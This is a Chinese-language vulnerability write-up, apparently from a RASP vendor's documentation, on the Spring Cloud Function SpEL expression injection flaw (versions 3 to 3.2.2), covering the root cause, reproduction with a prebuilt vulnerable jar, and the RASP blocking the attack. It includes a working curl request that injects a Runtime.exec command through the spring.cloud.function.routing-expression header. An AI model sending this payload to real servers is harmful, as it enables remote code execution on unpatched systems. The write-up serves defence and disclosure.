





# Spring Cloud Function 表达式注入漏洞

## 漏洞简介
SpringCloudFunction是一个SpringBoot开发的Servless中间件（FAAS），支持基于SpEL的函数式动态路由。在特定配置下，存在SpEL表达式执行导致的RCE。

## 影响版本

3 <= 版本 <= 3.2.2（ commit dc5128b) 之前

## 漏洞原理

在 main 分支commit dc5128b（https://github.com/spring-cloud/spring-cloud-function/commit/dc5128b80c6c04232a081458f637c81a64fa9b52）中，新增了 SimpleEvaluationContext



同样的，官方测试用例已经清楚地写明了漏洞位置与Payload：



提取出测试类后在apply方法下断并跟入，省略一些中间流程，最终可以看到从HTTP头spring.cloud.function.routing-expression 中取出SpEL表达式并由 StandardEvaluationContext 解析。

## 漏洞复现

### 改造官方提供的sample来复现漏洞（切换tag v3.2.1）


这里提供一个编译好的jar包
```go
https://jrasp-daemon-1254321150.cos.ap-shanghai.myqcloud.com/cve/SpringCloudFunction/scfunc-0.0.1-SNAPSHOT.jar
```

### 启动 java 进程，并开启动态注入：




### 发送攻击请求
```shell
curl --location --request POST 'http://49.235.111.228:8080/functionRouter' \
--header 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("open /Applications/QQ.app")' \
--header 'Content-Type: text/plain' \
--data 'Hello'
```
## RASP防护

请求被阻断：


### 查看攻击详情

攻击信息：


攻击详情：


调用栈：


请求附带信息：



